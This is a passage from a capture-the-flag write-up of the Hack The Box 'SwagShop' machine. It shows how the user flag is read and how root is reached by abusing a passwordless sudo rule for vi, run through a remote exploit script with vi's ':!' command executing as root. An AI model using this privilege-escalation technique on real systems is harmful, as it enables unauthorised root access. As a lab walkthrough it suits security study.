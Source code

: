 We want to get the user flag. In HTB's VM there is always a user flag in
/home/<some user>/user.txt and a root flag in /root/root.txt (at least on the
Linux One). So we look at the user directory:

    :::text
    ls /home/
    haris

We list the user folder:

    :::text
    ls /home/haris/
    user.txt

And we get the user flag:

    :::text
    cat /home/haris/user.txt
    a4488<redacted>

### let's get root

We start by enumerating our permissions on the box:

    :::text
    sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www/html/*

It is well known that Vi let you run system command. Nevertheless we must execute
this command without a shell. For that we can use the vi "-c" option:

    :::text
    python sploi.py http://10.10.10.140/index.php/admin "sudo /usr/bin/vi /var/www/html/1 -c ':! cat /root/root.txt > /tmp/mak/6'"
    python sploi.py http://10.10.10.140/index.php/admin "cat /tmp/mak/6"
    c2b087<redacted>
          ___ ___
        /| |/|\| |\
      /_| ´ |.` |_\           We are open! (Almost)
        |   |.  |
        |   |.  |         Join the beta HTB Swag Store!
        |___|.__|       https://hackthebox.store/password

                                  PS: Use root flag as password!


## Reverse shell way

There is another way to resolve this part of the box: using a reverse shell!
